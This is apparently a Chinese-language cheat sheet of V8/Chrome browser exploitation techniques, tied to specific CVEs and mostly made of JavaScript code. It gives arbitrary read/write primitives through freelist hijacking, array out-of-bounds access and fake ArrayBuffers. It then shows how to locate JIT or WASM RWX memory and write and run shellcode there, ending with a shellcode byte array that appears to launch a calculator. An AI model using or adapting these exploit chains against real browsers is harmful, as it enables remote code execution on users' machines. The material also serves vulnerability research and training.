

# arbitrary read/write

### 1、可以获得freelisthead

eg. cve-2017-15401

##### 由freelisthead获得superpage信息：
```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
}
```

##### arbitrary read/write：

```
freelist = new Uint32Array(2);//可以改写freelisthead
freelist.buffer;

function u64_to_arr(u64, arr) {
  arr[0] = u64.lo;
  arr[1] = u64.hi;
}

function read(addr, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var b = new Uint32Array(2);
  b.buffer;
  junk.push(b);
  return arr_to_u64(freelist).bswap();
}

function write(addr, val, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var rw = new Uint32Array(2);
  rw.buffer;
  u64_to_arr(val, rw);
  junk.push(rw);
}
```


### 2、数组越界

eg. CVE-2019-5782

##### 补充内容



length位于bk上方：

##### arbitrary read/write：

```
var buf = new ArrayBuffer(0xbeef);
var offset2;
var dtView = new DataView(buf);

//search the buf.size
for(let i=0; i<0xffff; i++){
    if(dt.f2i(a2[i]) == 0xbeef){
        offset2 = i+1; //a2[offset2] -> buf.backing_store
        break;
    }
}

function write64(addr, value){
    a2[offset2] = dt.i2f(addr);
    dtView.setFloat64(0, dt.i2f(value), true);
}

function read64(addr, str=false){
    a2[offset2] = dt.i2f(addr);
    let tmp = ['', ''];
    let tmp2 = ['', ''];
    let result = ''
    tmp[1] = hex(dtView.getUint32(0)).slice(10,);
    tmp[0] = hex(dtView.getUint32(4)).slice(10,);
    for(let i=3; i>=0; i--){
        tmp2[0] += tmp[0].slice(i*2, i*2+2);
        tmp2[1] += tmp[1].slice(i*2, i*2+2);
    }
    result = tmp2[0]+tmp2[1]
    if(str==true){return '0x'+result}
    else {return parseInt(result, 16)};
}
```

#### 2.1、特殊--Array.prototype.map非线性溢出

eg. Issue 716044: V8: OOB write in Array.prototype.map builtin

##### 介绍

非线性原因：array中存在空位置（0），而Array.prototype.map在索引时会跳过空位置，所以我们可以通过修改指定位置非空来实现非线性写入。

##### arbitrary read/write：

```
array[8] = 6;
// trigger the oob write to b[8], overwrite the oobArray's length
var b = array.map(function(x) { return maxSize; });

通过nap修改Array's length使其溢出，剩下的同数组溢出。
```

### 3、fake arraybuffer

eg. CVE-2017-5070

##### 前置条件

- 一般适用于只具有任意读的情况：

```
var ab = new ArrayBuffer(0x20);

用addrOf原语泄露出ab.__proto__的地址，-0x70就可以得到ab_constructor_addr的地址。

var abMapProtoAddr = AddrOfObj(ab.__proto__);
var abMapConstructAddr = abMapProtoAddr - 0x70;


var fakeABMap = [
    i2f(0xdaba0000daba0000), // map, whatever;
    i2f(0x000900c03e000008),
    i2f(0x00000000082003ff),
    1.1, // prototype
    2.2, // constructor
    0,
]
fakeABMap[3] = i2f(abMapProtoAddr);
fakeABMap[4] = i2f(abMapConstructAddr);


-------------------------------//get the fake ArrayBuffer Map elements' addr----------------------------------------
var fakeABMapAddr = AddrOfObj(fakeABMap) + 0x30; // elements addr of fakeABMap
print("[+] fake ArrayBuffer Map addr: 0x"+hex(fakeABMapAddr));


-------------------------------//use the fakeABMapAddr to build fakeAB;-------------------------------

var fakeAB = [
    1.1, // ArrayBuffer Map;
    2.2,  // properties (whatever);
    3.3,  // elements (whatever);
    i2f(0x40000000000), // length 0x400
    4.4, // backing store;
    i2f(0x0000000000000004), // copy form ab stucture
    i2f(0)
]
fakeAB[0] = i2f(fakeABMapAddr);
```

- 可以通过漏洞伪造arraybuffer（通过控制bk来实现arbitrary read/write），伪造方法：fake arraybuffer map and fake arraybuffer。


#####  arbitrary read/write

```
//get fake ArrayBuffer object with FakeObj primitive
var fakeABObj = FakeObj(i2f(fakeABAddr));
// build DataView obj
var dataView = new DataView(fakeABObj);

// aar primitive
function dataViewRead64(addr)
{

    fakeAB[4] = addr; // overwrite fakeAB[4], which is corresponding to backing store pointer

    return f2i(dataView.getFloat64(0, true));
}

// aaw primitive
function dataViewWrite(addr, payload)
{

    fakeAB[4] = addr;

    for (let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}
```
通过控制fake ArrayBuffer的bk来实现。


# exploite

## 2016前（无wasm）

### 方法一

##### when to use:

- 可以获得object地址

##### how to use:

```
// 1、创建一个JSFunction object
var jit = new Function("var a = 1000000");

// 2、get object address
var jit_addr = addrOf(jit) - 1;

//3、任意读获得jit中的rwx地址
var jit_rwx = read(jit_addr + 0x38);

//4、将shellcode写入jit_rwx
var shellcode = [];
write(jit_rwx, shellcode);

//5、run shellcode
jit();
```

### 方法二（isolate还在尝试中，未完待续。。。）

##### when to use:

- 无法获得object地址
- 可以泄漏superpage地址

##### how to use：

```
//1、通过leak freelisthead来泄漏superpage信息：
  var b8ptr = read_oob(8).bswap();
  scratch = b8ptr.sub_u32(0x20010);
  log('scratch: ' + scratch.str());
  var superpage_mask = mku64((1 << 21) - 1);
  superpage = b8ptr.and(superpage_mask.not());
  var partition_page_idx = b8ptr.and(superpage_mask).shr(14).val()
  var freelist_addr = superpage.add_u32(0x1000 + partition_page_idx * 0x20);
  
//2、任意写劫持freelisthead为metadata中指向freelist的地址
  write_oob(8, freelist_addr.bswap())
  junk.push(new ArrayBuffer(8));
  freelist = new Uint32Array(2);
  freelist.buffer;
  
//3、在matedata中读出array_buffer_allocator地址，根据偏移找到isolate_data，在isolate_data中读出isolate地址，之后在isolate中读出context，context中读出native_context，native_context中读出global。
function field(obj, idx) {
  return read(obj.add_u32(idx * 8 - 1));
}

  array_buffer_allocator = read(superpage.add_u32(0x1000));
  log('array_buffer_allocator: ' + array_buffer_allocator.str());
  var isolate_data = read(array_buffer_allocator.add_u32(array_buffer_allocator_to_isolate_data));
  isolate = read(isolate_data);
  log('isolate: ' + isolate.str());
  var context = read(isolate.add_u32(0x1860));
  var native_context = field(context, 2 + 3);
  global = field(native_context, 2 + 2);

```

补充一下：
```
pwrbg> p &_ZN5blinkL30g_main_thread_per_isolate_dataE
$1 = (<data variable, no debug info> * ) 0x7f3b995d0a58 <blink::g_main_thread_per_isolate_data>
```
他和array_buffer_allocator的偏移是固定的，可以由此计算出array_buffer_allocator_to_isolate_data。

```
//4、get rwx
function get_rwx(size) {
  var memory_chunk = global.and(mku64((1 << 19) - 1).not());
  var heap = read(memory_chunk.add_u32(0x38));
  var code_space = read(heap.add_u32(0xdd8));
  var alloc_info = code_space.add_u32(0x250);
  do {
    var rwx = read(alloc_info.add_u32(0x8));
    var limit = read(alloc_info.add_u32(0x10));
    var room = limit.sub(rwx).val();
  } while (room < size);
  var rwx = limit.sub_u32(size);
  log('rwx: ' + rwx.str());
  return rwx;
}
```

## 2016后（前面的方法也可以用）

### 新增方法

通过WASM，能得到一块RWX的内存，里面放着WASM的二进制代码，将shellcode写入到这块内存，再调用WASM接口时，就会执行Shellcode了。

```
function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                print(utf8ToString(h, index));
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}


var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];
// wite the shellcode to wasm code
dataViewWrite(rwxAddr, shellcode);
// run shellcode
func();
```
